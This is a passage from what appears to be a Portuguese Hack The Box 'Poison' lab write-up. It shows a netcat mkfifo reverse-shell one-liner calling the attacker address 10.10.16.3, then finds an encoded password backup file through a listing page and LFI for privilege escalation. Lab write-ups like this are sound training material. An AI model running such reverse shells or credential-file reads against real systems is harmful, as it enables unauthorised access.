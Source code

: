 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-poison/P_bp7.png)

Jogamos para o Repeater

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-poison/P_bp8.png)

Agora pegamos um reverse shell

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 443 >/tmp/f`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-poison/P_bp9.png)

Bom, agora vamos prosseguir

# Escalando Privileǵio (www-data -> charix)

Bom, não precisarimos de tudo isso para conseguir escalar privilégio, mas é bom pra treinarmos. Poderíamos ter tido acesso ao arquivo de senha através do LFI do servidor...

Verificamos o `listfiles.php`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-poison/P_p.png)

Dentro dele tem uma referência para o `pwdbackup.txt`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-poison/P_p1.png)

Então verificamos do que se trata esse pwdbackup, pq pelo nome chama atenção

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-poison/P_p2.png)

Ai está... Ou poderíamos ter acessado ele pelo shell que conseguimos, da na mesma

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-poison/P_3.png)

Beleza agora vamos analisar essa string maluca

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. 
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo= 
```

Ta na cara que é um base64 bizarro, ali fala que foi encodado pelo menos 13 vezes, então vamos desencodar até ele virar algo legível e útil
